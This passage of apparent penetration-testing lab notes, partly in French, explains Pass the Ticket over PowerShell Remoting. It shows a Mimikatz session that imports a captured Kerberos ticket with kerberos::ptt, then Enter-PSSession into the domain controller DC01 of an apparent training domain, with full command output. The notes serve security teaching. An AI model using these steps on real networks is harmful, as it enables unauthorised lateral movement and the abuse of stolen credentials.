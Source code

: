 ***

### <mark style="color:blue;">Pass The Ticket with PowerShell Remoting (Windows)</mark>

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) PowerShell Remoting permet d’exécuter des scripts ou des commandes sur un ordinateur distant. Les administrateurs l’utilisent souvent pour gérer à distance des machines sur le réseau. Activer PowerShell Remoting crée des écouteurs HTTP et HTTPS. L’écouteur utilise le port TCP 5985 pour HTTP et le port TCP 5986 pour HTTPS.

Pour créer une session PowerShell Remoting vers un ordinateur distant, il faut avoir des droits administratifs, être membre du groupe Remote Management Users, ou avoir des autorisations explicites de PowerShell Remoting dans la configuration de session.

Si on trouve un compte utilisateur qui n’a pas de privilèges administratifs sur une machine distante mais qui est membre du groupe Remote Management Users, alors on peut utiliser PowerShell Remoting pour se connecter à cette machine et exécuter des commandes.

***

### <mark style="color:blue;">Mimikatz - PowerShell Remoting with Pass the Ticket</mark>

To use PowerShell Remoting with Pass the Ticket, we can use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine. Let's open a new `cmd.exe` and execute mimikatz.exe, then import the ticket we collected using `kerberos::ptt`. Once the ticket is imported into our cmd.exe session, we can launch a PowerShell command prompt from the same cmd.exe and use the command `Enter-PSSession` to connect to the target machine.

{% code fullWidth="true" %}
```powershell
C:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

* File: 'C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi': OK

mimikatz # exit
Bye!

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
[DC01]: PS C:\Users\john\Documents>
```
{% endcode %}
